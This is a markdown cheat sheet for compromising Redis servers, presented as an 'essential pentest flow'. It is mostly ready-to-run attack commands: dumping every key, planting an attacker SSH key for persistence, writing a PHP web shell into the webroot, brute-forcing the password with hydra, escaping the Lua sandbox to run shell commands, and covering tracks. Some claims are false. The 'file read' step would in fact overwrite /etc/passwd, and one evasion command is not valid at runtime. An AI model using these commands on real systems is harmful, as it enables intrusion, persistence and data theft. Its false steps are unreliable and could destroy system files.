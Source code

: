###  Enumeration / Recon

```bash
# Connect (default port 6379)
redis-cli -h <IP> -p 6379

# If auth required
redis-cli -h <IP> -p <PORT> -a <PASSWORD>

# Check if protected mode / version
INFO
INFO server
INFO keyspace

# Get all keys
KEYS *
SCAN 0

# Dump sample values
GET <key>
LRANGE <list> 0 -1
SMEMBERS <set>
HGETALL <hash>

# List databases
CONFIG GET databases
SELECT <db_number>

# See config
CONFIG GET *
```

---

###  Exploitation Tricks

#### 1. **Write to File (RCE / Persistence)**

```bash
# Set an SSH public key for persistence (requires file write perms)
SET crackme "\n\nssh-rsa AAAAB3Nz... attacker@host\n\n"
CONFIG SET dir /var/lib/redis/.ssh/
CONFIG SET dbfilename "authorized_keys"
SAVE
```

```bash
# Or drop a webshell if Redis user has webroot write perms
SET payload "<?php system($_GET['cmd']); ?>"
CONFIG SET dir /var/www/html/
CONFIG SET dbfilename "shell.php"
SAVE
```

---

#### 2. **Crack Redis AUTH password**

```bash
# Try common weak passwords
hydra -P /opt/rockyou.txt -s 6379 redis://<IP>
```

---

#### 3. **File Read (Poison backup path)**

```bash
# Abuse CONFIG SET dir/dbfilename to read files
CONFIG SET dir /etc/
CONFIG SET dbfilename passwd
SAVE
```

Now `GET passwd` returns `/etc/passwd`.

---

#### 4. **Lua Sandbox Escape**

```bash
EVAL 'os.execute("id")' 0
EVAL 'io.popen("cat /etc/passwd"):read("*a")' 0
```

---

###  Privilege Escalation

- Check SUID/permissions of `redis` user
- If running as root, file write → instant privesc (drop to `/root/.ssh/authorized_keys`).
- Misconfig (no AUTH, full CONFIG) = free RCE.

---

###  Post-Exploitation

```bash
# Check connected clients
CLIENT LIST

# Rename commands to avoid detection
CONFIG SET rename-command FLUSHALL ""
```

---

### One-Liner: Dump All

```bash
redis-cli -h <IP> -p <PORT> --raw keys '*' | xargs -n1 redis-cli -h <IP> -p <PORT> get
```

---

This is the **essential pentest flow**:

1. **Connect** → check for AUTH or not.
2. **Enumerate keys/config**.
3. **Exploit write → RCE/persistence**.
4. **Escalate** if Redis runs as root.

---
